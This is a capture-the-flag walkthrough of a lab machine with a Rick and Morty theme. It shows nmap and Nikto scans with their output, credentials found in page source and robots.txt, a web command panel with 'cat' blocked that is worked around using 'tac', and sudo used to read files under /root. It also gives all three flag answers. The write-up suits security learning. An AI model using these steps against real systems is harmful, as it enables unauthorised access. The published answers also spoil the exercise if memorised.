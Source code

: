 ```html
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
  ```
  we see the username in the source code

we open burp and we see PHPSESSID which tells that server is running on PHP

then check Wappalyzer
- we do /robots.txt 
`Wubbalubbadubdub`
we get this

- do nmap scan 
```bash
$ nmap -p- 10.10.102.55 -v 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-08 09:48 IST
Initiating Ping Scan at 09:48
Scanning 10.10.102.55 [2 ports]
Completed Ping Scan at 09:48, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 09:48
Completed Parallel DNS resolution of 1 host. at 09:48, 9.01s elapsed
Initiating Connect Scan at 09:48
Scanning 10.10.102.55 [65535 ports]
Discovered open port 22/tcp on 10.10.102.55
Discovered open port 80/tcp on 10.10.102.55
Increasing send delay for 10.10.102.55 from 0 to 5 due to 42 out of 138 dropped probes since last increase.
Increasing send delay for 10.10.102.55 from 5 to 10 due to 11 out of 16 dropped probes since last increase.
```
we see open ports at 22 and 80 
now we scan those ports particularly
```bash
$ nmap -p22,80 10.10.102.55   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-08 09:50 IST
Nmap scan report for 10.10.102.55
Host is up (0.17s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```
we see ssh on 22
- Nikto is a web server scanner. 
```bash
$ nikto -h 10.10.102.55   
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.102.55
+ Target Hostname:    10.10.102.55
+ Target Port:        80
+ Start Time:         2023-12-08 09:52:22 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

we get login.php from this, so do login.php we get command line ( we can also use gobuster for this )
- now do ls we see `Sup3rS3cretPickl3Ingred.txt`
cat doesn't work, but less and tac work
so do `tac Sup3rS3cretPickl3Ingred.txt` to get the first ingredient - `mr. meeseek hair`

- `ls ../../../` gives the list of directories
we check home
`ls ../../../home` we find 2 directories and do rick, `ls ../../../home/rick`
now do `tac ../../../home/rick/"second ingredients"` to get the second ingredient -
`1 jerry tear`

- do `sudo -l` to see commands
then check root directory by doing `sudo ls /root` or `sudo ls ../../../root`
we see 3rd.txt, run `sudo tac /root/3rd.txt` to get the third ingredient - `fleeb juice`
